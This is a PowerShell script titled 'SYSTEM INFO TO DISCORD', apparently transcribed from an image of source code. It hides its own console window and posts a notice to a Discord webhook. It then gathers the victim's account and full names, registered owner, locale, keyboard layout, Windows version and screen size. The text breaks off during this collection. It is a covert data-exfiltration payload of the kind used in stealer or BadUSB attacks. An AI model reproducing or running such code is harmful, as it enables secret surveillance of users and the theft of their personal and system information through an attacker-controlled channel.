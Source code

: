 # SYSTEM INFO TO DISCORD

$Async = '[DllImport("user32.dll")] public static extern bool ShowWindowAsync(IntPtr hWnd, int nCmdShow);'
$Type = Add-Type -MemberDefinition $Async -name Win32ShowWindowAsync -namespace Win32Functions -PassThru
$hwnd = (Get-Process -PID $pid).MainWindowHandle
if($hwnd -ne [System.IntPtr]::Zero){
    $Type::ShowWindowAsync($hwnd, 0)
}
else{
    $Host.UI.RawUI.WindowTitle = 'hideme'
    $Proc = (Get-Process | Where-Object { $_.MainWindowTitle -eq 'hideme' })
    $hwnd = $Proc.MainWindowHandle
    $Type::ShowWindowAsync($hwnd, 0)
}

sleep 1
Add-Type -AssemblyName System.Windows.Forms

$hookurl = "$dc"

# Send a notification to discord on start
$jsonsys = @{"username" = "$env:COMPUTERNAME" ;"content" = ":computer: ``Gathering System Information for $env:COMPUTERNAME`` :computer:"} | ConvertTo-Json
Invoke-RestMethod -Uri $hookurl -Method Post -ContentType "application/json" -Body $jsonsys

# User Information
$userInfo = Get-WmiObject -Class Win32_UserAccount
$fullName = $($userInfo.FullName) ;$fullName = ("$fullName").TrimStart("")
$email = (Get-ComputerInfo).WindowsRegisteredOwner

# Other Users
$users = "$($userInfo.Name)"
$userString = "`nFull Name : $($userInfo.FullName)"

# System Language
$systemLocale = Get-WinSystemLocale
$systemLanguage = $systemLocale.Name

#Keyboard Layout
$userLanguageList = Get-WinUserLanguageList
$keyboardLayoutID = $userLanguageList[0].InputMethodTips[0]

# OS Information
$systemInfo = Get-WmiObject -Class Win32_OperatingSystem
$OSString = "$($systemInfo.Caption)"
$WinVersion = (Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion').DisplayVersion
$OSArch = "$($systemInfo.OSArchitecture)"
$Screen = [System.Windows.Forms.SystemInformation]::VirtualScreen
$Width = $Screen.Width;$Height = $Screen.Height
$screensize = "${width} x ${height}"
